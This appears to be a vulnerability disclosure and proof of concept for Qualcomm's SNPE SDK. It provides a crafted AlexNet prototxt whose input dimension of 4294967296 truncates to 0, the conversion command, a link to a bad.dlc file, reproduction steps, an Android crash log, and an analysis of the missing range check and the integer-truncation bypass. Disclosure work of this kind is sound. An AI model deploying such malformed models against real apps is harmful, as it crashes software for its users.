


## reproduce

first, use the protxt file as follow to produce a new dlc.

```json
name: "AlexNet"
layer {
  name: "data"
  type: "Input"
  top: "data"
  input_param { shape: { dim: 4294967296 dim: 3 dim: 227 dim: 227 } }
}
layer {
  name: "conv1"
  type: "Convolution"
  bottom: "data"
  top: "conv1"
  param {
    lr_mult: 1
    decay_mult: 1
  }
  param {
    lr_mult: 2
    decay_mult: 0
  }
  convolution_param {
    num_output: 96
    kernel_size: 11
    stride: 4
  }
}
layer {
  name: "relu1"
  type: "ReLU"
  bottom: "conv1"
  top: "conv1"
}
layer {
  name: "norm1"
  type: "LRN"
  bottom: "conv1"
  top: "norm1"
  lrn_param {
    local_size: 5
    alpha: 0.0001
    beta: 0.75
  }
}
layer {
  name: "pool1"
  type: "Pooling"
  bottom: "norm1"
  top: "pool1"
  pooling_param {
    pool: MAX
    kernel_size: 3
    stride: 2
  }
}
layer {
  name: "conv2"
  type: "Convolution"
  bottom: "pool1"
  top: "conv2"
  param {
    lr_mult: 1
    decay_mult: 1
  }
  param {
    lr_mult: 2
    decay_mult: 0
  }
  convolution_param {
    num_output: 256
    pad: 2
    kernel_size: 5
    group: 2
  }
}
layer {
  name: "relu2"
  type: "ReLU"
  bottom: "conv2"
  top: "conv2"
}
layer {
  name: "norm2"
  type: "LRN"
  bottom: "conv2"
  top: "norm2"
  lrn_param {
    local_size: 5
    alpha: 0.0001
    beta: 0.75
  }
}
layer {
  name: "pool2"
  type: "Pooling"
  bottom: "norm2"
  top: "pool2"
  pooling_param {
    pool: MAX
    kernel_size: 3
    stride: 2
  }
}
layer {
  name: "conv3"
  type: "Convolution"
  bottom: "pool2"
  top: "conv3"
  param {
    lr_mult: 1
    decay_mult: 1
  }
  param {
    lr_mult: 2
    decay_mult: 0
  }
  convolution_param {
    num_output: 384
    pad: 1
    kernel_size: 3
  }
}
layer {
  name: "relu3"
  type: "ReLU"
  bottom: "conv3"
  top: "conv3"
}
layer {
  name: "conv4"
  type: "Convolution"
  bottom: "conv3"
  top: "conv4"
  param {
    lr_mult: 1
    decay_mult: 1
  }
  param {
    lr_mult: 2
    decay_mult: 0
  }
  convolution_param {
    num_output: 384
    pad: 1
    kernel_size: 3
    group: 2
  }
}
layer {
  name: "relu4"
  type: "ReLU"
  bottom: "conv4"
  top: "conv4"
}
layer {
  name: "conv5"
  type: "Convolution"
  bottom: "conv4"
  top: "conv5"
  param {
    lr_mult: 1
    decay_mult: 1
  }
  param {
    lr_mult: 2
    decay_mult: 0
  }
  convolution_param {
    num_output: 256
    pad: 1
    kernel_size: 3
    group: 2
  }
}
layer {
  name: "relu5"
  type: "ReLU"
  bottom: "conv5"
  top: "conv5"
}
layer {
  name: "pool5"
  type: "Pooling"
  bottom: "conv5"
  top: "pool5"
  pooling_param {
    pool: MAX
    kernel_size: 3
    stride: 2
  }
}
layer {
  name: "fc6"
  type: "InnerProduct"
  bottom: "pool5"
  top: "fc6"
  param {
    lr_mult: 1
    decay_mult: 1
  }
  param {
    lr_mult: 2
    decay_mult: 0
  }
  inner_product_param {
    num_output: 4096
  }
}
layer {
  name: "relu6"
  type: "ReLU"
  bottom: "fc6"
  top: "fc6"
}
layer {
  name: "drop6"
  type: "Dropout"
  bottom: "fc6"
  top: "fc6"
  dropout_param {
    dropout_ratio: 0.5
  }
}
layer {
  name: "fc7"
  type: "InnerProduct"
  bottom: "fc6"
  top: "fc7"
  param {
    lr_mult: 1
    decay_mult: 1
  }
  param {
    lr_mult: 2
    decay_mult: 0
  }
  inner_product_param {
    num_output: 4096
  }
}
layer {
  name: "relu7"
  type: "ReLU"
  bottom: "fc7"
  top: "fc7"
}
layer {
  name: "drop7"
  type: "Dropout"
  bottom: "fc7"
  top: "fc7"
  dropout_param {
    dropout_ratio: 0.5
  }
}
layer {
  name: "fc8"
  type: "InnerProduct"
  bottom: "fc7"
  top: "fc8"
  param {
    lr_mult: 1
    decay_mult: 1
  }
  param {
    lr_mult: 2
    decay_mult: 0
  }
  inner_product_param {
    num_output: 1000
  }
}
layer {
  name: "prob"
  type: "Softmax"
  bottom: "fc8"
  top: "prob"
}
```

Command: `snpe-caffe-to-dlc   -c  bad.prototxt -d bad.dlc`

[BAD.DLC](https://github.com/happypwn1337/SomePocs/blob/master/bad.dlc)

second, put the dlc file into app's folder.(path in the sdk: snpe-1.27.1.382/examples/android/image-classifiers_1.27)
third, run the example app on the phone, load the model and click one picture, then the app crashed.


```bash
AndroidRuntime: FATAL EXCEPTION: AsyncTask #6
AndroidRuntime: Process: com.qualcomm.qti.snpe.imageclassifiers8, PID: 6359
AndroidRuntime: java.lang.RuntimeException: An error occurred while executing doInBackground()
AndroidRuntime:        at android.os.AsyncTask$3.done(AsyncTask.java:354)
AndroidRuntime:        at java.util.concurrent.FutureTask.finishCompletion(FutureTask.java:383)
AndroidRuntime:        at java.util.concurrent.FutureTask.setException(FutureTask.java:252)
AndroidRuntime:        at java.util.concurrent.FutureTask.run(FutureTask.java:271)
AndroidRuntime:        at android.os.AsyncTask$SerialExecutor$1.run(AsyncTask.java:245)
AndroidRuntime:        at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1167)
AndroidRuntime:        at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:641)
AndroidRuntime:        at java.lang.Thread.run(Thread.java:764)
AndroidRuntime: Caused by: java.lang.IllegalArgumentException: Shape dimension can not be < 1!
AndroidRuntime:        at com.qualcomm.qti.snpe.internal.NativeNetwork.createFloatTensor(NativeNetwork.java:188)
AndroidRuntime:        at com.qualcomm.qti.snpe.imageclassifiers8.tasks.ClassifyImageWithFloatTensorTask.doInBackground(ClassifyImageWithFloatTensorTask.java:36)
AndroidRuntime:        at com.qualcomm.qti.snpe.imageclassifiers8.tasks.ClassifyImageWithFloatTensorTask.doInBackground(ClassifyImageWithFloatTensorTask.java:23)
AndroidRuntime:        at android.os.AsyncTask$2.call(AsyncTask.java:333)
AndroidRuntime:        at java.util.concurrent.FutureTask.run(FutureTask.java:266)
AndroidRuntime:        ... 4 more
ActivityManager:   Force finishing activity com.qualcomm.qti.snpe.imageclassifiers8/.MainActivity
ActivityTrigger: ActivityTrigger activityPauseTrigger
```



## analysis

i change the dim num at line 6: `input_param { shape: { dim: 4294967296 dim: 3 dim: 227 dim: 227 } }`, change 10 to 4294967296, or change 10 to 0 can also let the app chashed. 

When translate prototxt to dlc using snpe-caffe-to-dlc, it didn't check the dim's range, so the dlc file may contains wrong shape like `shape: { dim: 0 dim: 3 dim: 227 dim: 227 }`. After load the dlc model in the app, if we click one picture,  the app will be crashed because of the bad parameter.

There is also a potential vuln. The python script will call libDlModelToolsPy.so which is a C++ library to translate the prototxt, if we check the shape's value to insure the dims can't be 0, we can also bypass the check.Because the parameters translate from python to c++, the num's present is different. if we change the dim to a big num such as 0x100000000, the it presented in c++ is 0 because the type translate.

